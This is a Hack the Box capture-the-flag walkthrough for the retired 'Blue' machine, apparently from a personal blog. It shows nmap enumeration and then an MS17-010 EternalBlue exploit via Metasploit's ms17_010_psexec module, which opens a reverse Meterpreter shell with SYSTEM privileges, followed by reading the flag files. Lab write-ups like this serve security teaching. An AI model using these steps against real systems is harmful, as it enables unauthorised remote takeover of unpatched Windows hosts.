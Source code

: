 ```yaml
---
title: Blue, Hack the Box CTF Walkthrough
lead: Exploiting the MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution Vulnerability
tag: CTF
image: /assets/img/posts/2021-03-04-blue-hack-the-box-walkthrough/blue.png
layout: post
description: ""
date:   2021-03-03 20:01:21 -0400
last-updated: 2021-03-03 20:01:21 -0400
tag: ctf
author: Tyler Butler
description: Blue is an easy level machine in the Hack the Box retired archives requiring simple enumeration and basic level understanding of metasploit
card: card-2
---
```


Blue is an easy level machine in the Hack the Box retired archives. This machine requires a simple enumeration scan to identify services and versions, and knowledge of using pre-configured metasploit modules to exploit a well-known vulnerability. The title of this box should be a major clue to what vulnerabilities might exist. 

## Enumeration  

First, I used nmap and the nmapAutomator script to search the target for open ports, running services, and their corresponding service versions. 

```bash
┌──(kali㉿kali)-[~/Documents/htb/blue]
└─$ nmapAutomator.sh 10.10.10.226 All
```  

```bash
┌──(kali㉿kali)-[~/Documents/htb/blue]
└─$ sudo nmap -sV -A -O --top-ports 200 10.10.10.40                                                                                                    1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 15:24 EST
Nmap scan report for 10.10.10.40
Host is up (0.055s latency).
Not shown: 191 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
```

The resulting output shows the target was running windows microsoft-ds,netbios, and msrpc. I had a feeling this machine was vulnerable to eternal blue due to the box title. To check my assumption, I opened up metasploit and used a `check` option in one of the ms17_010 related modules. After setting the RHOST to the target, the check revealed it was likely vulnerable. 

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
msf6 exploit(windows/smb/ms17_010_psexec) > 
```

## Selecting a Public Exploit  

There are a few metasploit modules which can be used to root a machine vulnerable to eternal blue, i decided to use the `windows/smb/ms17_010_psexec` module. After opening the msfconsole, and selecting the psexec module, I configured the options to use the target as the RHOST and my machine as the LHOST. Running the exploit was successful.

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.40:49161) at 2021-03-04 15:11:16 -0500

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

## Finding Flags  

I stayed in the meterpreter shell to navigate the target and search for flags. Using the search meterpreter command, I found both the user and root flag files.

```bash
meterpreter > search -f *user.txt*
Found 3 results...
    c:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\user.txt.lnk (909 bytes)
    c:\Users\haris\AppData\Roaming\Microsoft\Windows\Recent\user.txt.lnk (556 bytes)
    c:\Users\haris\Desktop\user.txt (32 bytes)
meterpreter > type "c:\Users\haris\Desktop\user.txt"
[-] Unknown command: type.
meterpreter > cat "c:\Users\haris\Desktop\user.txt"
4c546aea7dbee75cbd71de245c8deea9meterpreter > 
```  

```bash
meterpreter > search -f "root.txt"
Found 1 result...
    c:\Users\Administrator\Desktop\root.txt (32 bytes)
meterpreter > cat "c:\Users\Administrator\Desktop\root.txt"
ff548eb71e920ff6c08843ce9df4e717meterpreter > 
```
